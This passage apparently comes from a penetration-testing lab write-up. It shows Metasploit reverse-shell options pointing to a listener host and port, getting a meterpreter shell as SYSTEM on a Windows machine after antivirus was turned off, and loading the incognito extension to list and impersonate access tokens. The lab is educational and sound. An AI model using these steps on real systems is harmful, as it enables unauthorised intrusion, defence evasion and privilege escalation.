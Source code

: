 ```
   LHOST     10.0.2.5         yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```
The exploit did not run at first until I remembered to switch the antivirus
protection on my Windows user machine off. None of the `target` settings worked
before. After I had switched antivirus live protection off, I immediately got a
`meterpreter` shell with `set target 0` (automatic). We can check that we got
an admin account by entering `shell` and then `whoami` at the Windows command
prompt (`nt authority\system`). We can close the shell again with `<CTRL-C>`,
which brings us back to the `meterpreter` prompt.

To display the available modules we can type `load` and double-tab to show our
options (beyond `incognito`):

```
meterpreter > load 
load bofloader   load extapi      load kiwi        load peinjector  load priv        load sniffer     load unhook      
load espia       load incognito   load lanattacks  load powershell  load python      load stdapi      load winpmem
```

Since we want to elevate our privileges starting from a low-privilege account,
we need to log in as `fcastle`. We can learn about the options of the
`incognito` module with `help` -- see the last part of the output. We will use
`list_tokens` and `impersonate_token` in this section.

```
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > help

(...)

Incognito Commands
==================

    Command                   Description
    -------                   -----------
    add_group_user            Attempt to add a user to a global group with all tokens
    add_localgroup_user       Attempt to add a user to a local group with all tokens
    add_user                  Attempt to add a user with all tokens
    impersonate_token         Impersonate specified token
    list_tokens               List tokens available under current user context
    snarf_hashes              Snarf challenge/response hashes for every token

For more info on a specific command, use <command> -h or help <command>.
```
